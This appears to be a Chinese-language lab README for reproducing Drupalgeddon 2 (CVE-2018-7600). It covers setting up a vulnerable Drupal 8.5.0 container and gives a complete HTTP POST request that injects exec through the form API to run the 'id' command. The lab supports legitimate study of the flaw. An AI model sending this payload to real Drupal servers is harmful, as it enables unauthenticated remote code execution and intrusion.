 # Drupal Drupalgeddon 2 未授权远程代码执行漏洞（CVE-2018-7600）

Drupal是一个使用PHP编写的免费开源的Web内容管理框架。

在Drupal 7.58之前的版本、8.3.9之前的8.x版本、8.4.6之前的8.4.x版本和8.5.1之前的8.5.x版本中存在远程代码执行漏洞。该漏洞影响了多个具有默认或常见模块配置的子系统，包括Form API。

参考链接：

- <https://www.drupal.org/sa-core-2018-002>
- <https://research.checkpoint.com/uncovering-drupalgeddon-2/>

## 环境搭建

执行如下命令启动一个存在漏洞的Drupal 8.5.0服务器：

```
docker compose up -d
```

环境启动后，访问`http://your-ip:8080/`将会看到Drupal的安装页面。使用"标准"配置文件完成Drupal安装。由于环境中没有MySQL，安装时应选择SQLite数据库。安装完成后，即可开始漏洞利用。

## 漏洞复现

参考[a2u/CVE-2018-7600](https://github.com/a2u/CVE-2018-7600/blob/master/exploit.py)，我们可以向Drupal发送以下请求：

```
POST /user/register?element_parents=account/mail/%23value&ajax_form=1&_wrapper_format=drupal_ajax HTTP/1.1
Host: your-ip:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 103

form_id=user_register_form&_drupal_ajax=1&mail[#post_render][]=exec&mail[#type]=markup&mail[#markup]=id
```

代码执行成功后，id命令将被执行：

![](1.png)
